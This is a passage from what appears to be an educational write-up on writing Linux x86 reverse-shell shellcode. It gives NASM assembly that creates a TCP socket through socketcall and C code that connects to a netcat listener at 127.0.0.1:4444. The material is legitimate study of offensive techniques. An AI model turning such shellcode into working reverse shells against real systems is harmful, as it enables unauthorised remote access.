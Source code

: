     client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
</code></pre><p>As for the 1st assignment, a socket can be created by means of the <code>socketcall</code> system function:</p><pre><code class="language-nasm">; Author: Robert Catalin Raducioiu (rbct)

global _start

section .text

_start:

    ; clear EAX, EBX, and ECX registers
    xor eax, eax
    mov ebx, eax
    mov ecx, eax

    ; copy 102 into EAX: socketcall() syscall
    mov al, 102

    ; 3rd argument of socket(): IPPROTO_TCP (0x6)
    mov cl, 6
    push ecx

    ; 1st argument of socketcall(): SYS_SOCKET
    ; 2nd argument of socket(): SOCK_STREAM (0x00000001)
    inc bl
    push ebx

    ; 1st argument of socket(): AF_INET
    mov cl, 2
    push ecx

    ; 2nd argument of socketcall(): pointer to the arguments for SYS_SOCKET call
    mov ecx, esp

    ; call syscall
    int 0x80

    ; save server socket file descriptor
    mov esi, eax</code></pre><p>As you can see, the syscall <code>socketcall</code> (n. 102, or <code>0x66</code>) calls <code>socket()</code>, to which the parameters <code>AF_INET</code>, <code>SOCK_STREAM</code>, <code>IPPROTO_TCP</code> are passed in order to create a TCP socket.</p><p>Once the socket has been created, we need to connect it to the remote server, in this case the netcat listener:</p><pre><code class="language-cpp">    client_address.sin_family = AF_INET;
    inet_aton("127.0.0.1", &amp;client_address.sin_addr);
    client_address.sin_port = htons(4444);

    connect(
        client_socket_fd,
        (struct sockaddr *)&amp;client_address,
        sizeof(client_address)
    );</code></pre><p>First <em>hurdle</em> is the <code>sockaddr_in</code> struct, which I've already covered in the 1st assignment:</p><pre><code class="language-cpp">struct sockaddr_in {
  unsigned short      sin_family;
  unsigned short      sin_port;
  struct in_addr      sin_addr;
};

